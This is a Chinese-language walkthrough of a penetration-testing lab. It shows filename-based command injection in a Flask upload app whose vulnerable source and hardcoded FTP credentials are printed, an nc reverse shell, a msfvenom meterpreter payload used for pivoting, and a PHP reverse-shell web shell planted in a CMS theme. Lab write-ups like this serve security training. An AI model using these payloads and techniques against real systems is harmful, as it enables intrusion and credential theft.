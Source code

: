 # 靶场拓扑&情况

# 渗透过程
网络扫描
`namp -v -A 192.168.1.0/24`

![](attachments/Pasted%20image%2020230303083516.png)

`dirsearch -u http://192.168.1.129/`
结果全为200，应该是做了防扫描的特殊设置

![](attachments/Pasted%20image%2020230303084150.png)

发现网站由上传文件的功能
试着上传一个shell，发现不支持php文件，只允许txt和rtf，上传txt文件后发现文件内容出现在了网页

![](attachments/Pasted%20image%2020230303085226.png)


猜测后台有读文件的相关操作，尝试xss文件内容也无效，可能对内容有处理，尝试文件名注入

![](attachments/Pasted%20image%2020230303092812.png)
![](attachments/Pasted%20image%2020230303092758.png)

过滤了whoami，那么就是想办法在这里实现命令执行了
可用ls读文件，但是过滤了斜杠 `/`,猜测这里读文件可能是调用了exec这样的危险函数，

![](attachments/Pasted%20image%2020230303094109.png)

直接`cat main.py`会被认为是其他文件，为了读对应文件，改为`cat main*`

main.py
```python
import os
import urllib.request
from flask import Flask, flash, request, redirect, render_template
from ftplib import FTP
import subprocess

UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {'txt', 'rtf'}

app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024



@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
      cmd = 'fortune -o'
      result = subprocess.check_output(cmd, shell=True)
      return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>"+result.decode("utf-8")+"</h3>"
@app.errorhandler(500)
def internal_error(error):
    return "<h1>500?! - What are you trying to do here?!</h1>"

@app.route('/')

def home():
	return render_template('index.html')
	

@app.route('/upload')

def upload_form():
	try:
	    return render_template('my-form.html')
	except Exception as e:
	    return render_template("500.html", error = str(e))


def allowed_file(filename):
           check = filename.rsplit('.', 1)[1].lower()
           check = check[:3] in ALLOWED_EXTENSIONS    
           return check

@app.route('/upload', methods=['POST'])
def upload_file():
	if request.method == 'POST':
		if 'file' not in request.files:
			flash('No file part')
			return redirect(request.url)
		file = request.files['file']
		if file.filename == '':
			flash('No file selected for uploading')
			return redirect(request.url)
		if file.filename and allowed_file(file.filename):
			filename = file.filename
			
			file.save(os.path.join(UPLOAD_FOLDER, filename))
			cmd="cat "+UPLOAD_FOLDER+"/"+filename
			result = subprocess.check_output(cmd, shell=True)
			flash(result.decode("utf-8"))
			flash('File successfully uploaded')
			
			try:
			   ftp = FTP('ftp.mofo.pwn')
			   ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606')
			   with open(UPLOAD_FOLDER+"/"+filename, 'rb') as f:
			      ftp.storlines('STOR %s' % filename, f)
			      ftp.quit()
			except:
			   flash("Cannot connect to FTP-server")
			return redirect('/upload')

		else:
			flash('Allowed file types are txt and rtf')
			return redirect(request.url)


if __name__ == "__main__":
    app.run()
```

尝试反弹shell，由于`.`用来判断文件类型，将ip地址转为10进制,环境是有nc的
`nc 3232235905 23456 -e bash`

![](attachments/Pasted%20image%2020230303111619.png)

拿到shell，做一个tty
`python -c "import pty;pty.spawn('/bin/bash')"`

![](attachments/Pasted%20image%2020230303111910.png)

查找main.py 的ftp服务
`ls /usr/bin | grep ftp`
利用之前代码中的用户名密码登录FTP服务
`lftp someuser@ftp.mofo.pwn`

![](attachments/Pasted%20image%2020230303135822.png)

查看cmscreds.txt

![](attachments/Pasted%20image%2020230303135918.png)

`hardEnough4u`

利用这台机器开始扫描内网，下载一个nmap `add apk nmap`
内网ip为172.19.0.10，nmap扫描网段

![](attachments/Pasted%20image%2020230303162353.png)

dig枚举域名

![](attachments/Pasted%20image%2020230303162921.png)

利用msf做端口转发
`portfwd add -l 18080 -r 172.19.0.1 -p 8080
生成elf程序
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.163.129 LPORT=8080 -f elf -o shell.elf`
受害机wget下载然后给权限运行

![](attachments/Pasted%20image%2020230303160933.png)

现在访问127.0.0.1:18080可以看到apache的页面

![](attachments/Pasted%20image%2020230303163134.png)

但是没有看到cms，可能是站点域名的设置，需要更改一下host文件

![](attachments/Pasted%20image%2020230303164733.png)

直接访问

![](attachments/Pasted%20image%2020230303180416.png)

dirsearch扫目录

![](attachments/Pasted%20image%2020230303180408.png)

结合先前获得的账号密码，直接登录后台

![](attachments/Pasted%20image%2020230303180814.png)

进后台之后是一个类Wordpress的网站，在Theme哪里去做修改拿shell,下面是一个php的反弹shell

```php
<?php 
set_time_limit(0); 
$ip=$_REQUEST['ip'];
$port=$_REQUEST['port'];
$fp=@fsockopen($ip,$port,$errno,$errstr);
if(!$fp){echo "error";}
else{
	fputs($fp,"\n+++++++++++++connect sucess+++++++++\n");
	while(!feof($fp)){
	fputs($fp,"shell:");
	$shell=fgets($fp);
	$message=`$shell`;
	fputs($fp,$message);
	}
fclose($fp);
}
?>

```

`http://ourcms.mofo.pwn:18080/theme/Innovation/template.php?ip=192.168.163.129&port=23457`

![](attachments/Pasted%20image%2020230303203156.png)

